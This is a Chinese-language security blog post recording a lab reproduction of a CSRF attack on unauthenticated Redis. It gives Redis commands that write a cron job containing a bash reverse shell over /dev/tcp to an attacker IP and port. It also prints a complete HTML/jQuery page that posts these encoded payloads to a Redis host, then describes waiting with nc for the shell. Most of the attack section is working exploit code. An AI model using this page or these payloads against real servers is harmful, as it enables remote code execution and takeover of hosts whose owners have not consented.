 ```yaml
---
layout: post
title: Redis CSRF漏洞调试记录
description: "redis csrf"
category: scanner
tags: [scanner]
imagefeature: http://7xwdx7.com1.z0.glb.clouddn.com/5551e1cabd3bb.jpg
comments: true
share: true
---
```


# Redis CSRF漏洞调试记录

### 背景
过完年开工，就爆出了redis的CSRF漏洞。前有通过SSRF构造攻击报文执行redis命令，现在又出客户端请求伪造，redis未授权访问真是后患无穷。作为拥有大内网的“有钱人”们，还是做好网段隔离和访问控制，彻底消除隐患吧。

### 攻击原理
通过阅读
[ Whatsinmyredis作者的github项目](https://github.com/dxa4481/whatsinmyredis)
发现攻击方式为构造POST请求提交至Redis监听端口6379。在Redis对HTTP报文的处理过程中，每次出现%0d%0a换行，就认为是一条命令进行解析，同时在执行无意义的错误命令后，不会主动关闭tcp连接，而是继续执行下一条命令。因此HTTP报文的Header不会影响到POST正文的解析执行，从而形成了CSRF利用。

但是根据作者项目中js脚本的payload，发现无法在实际环境中执行，究其根本原因，还在于空格字符的干扰。虽然作者提供的示例无法直接拿来使用，不过还是暗中给出了解决该问题的链接地址：
`http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html`

这里不得不膜拜一下，人家早在2014年就开始玩HTTP报文攻击redis服务了。文章里提到了构造满足Redis Protocol格式的命令来避免空格的干扰，还提到了读取系统文件内容等利用方式。

通过将原始payload进行编码构造，终于实现了CSRF的任意redis命令执行。

### 攻击利用

在本地搭建的测试环境中，我们尝试利用Redis CSRF写入cron配置脚本，从而获取目标主机的反弹shell。从redis原始操作命令来看，需要4步程序：
* 设置路径:
`config set dir /var/spool/cron/`
* 设置文件名：
 `config set dbfilename root`
* 将cron脚本写入key:
`set wow "\n\n\n* * * * * bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1\n\n\n"`
* 利用save命令写入系统目录:
`SAVE`

将这些命令编码，并构造成CSRF攻击页面，具体代码如下：
~~~
<html>
  <head>
   <meta charset="UTF-8">
   <title>Redis CSRF利用</title>
   <script src="http://code.jquery.com/jquery-3.1.0.min.js"></script>
   <script>

      alert("向redis发送第一次请求");
	  var payload = "CONFIG SET dir /var/spool/cron/ \r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});

	  alert("向redis发送第二次请求");
	  var payload = "CONFIG SET dbfilename root \r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});

      alert("向redis发送第三次请求");
	  payload = "*3\r\n$3\r\nSET\r\n$4\r\ntest\r\n$62\r\n\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.33.129/9999 0>&1\n\n\n\r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});


	  alert("向redis发送第四次请求");
	  payload = "SAVE\r\n\r\n";
      $.post("http://192.168.33.130:6379", payload, function(data){alert(data);});
   </script>
  </head>
  <body>
    Redis CSRF利用
  </body>
</html>

~~~

### 攻击效果

我们可以开启redis的monitor模式来查看攻击效果，
当我们访问CSRF页面时，可以看到这些命令在redis中被顺利执行了。
![redis执行记录](http://7xwdx7.com1.z0.glb.clouddn.com/redis-monitor.png)

同时，我们可以通过crontab -l查看目标主机，确认cron脚本已经被顺利写入文件系统。
![crontab状态](http://7xwdx7.com1.z0.glb.clouddn.com/crontab-list.png)

最后，就安安静静的开着nc等主机上线吧。
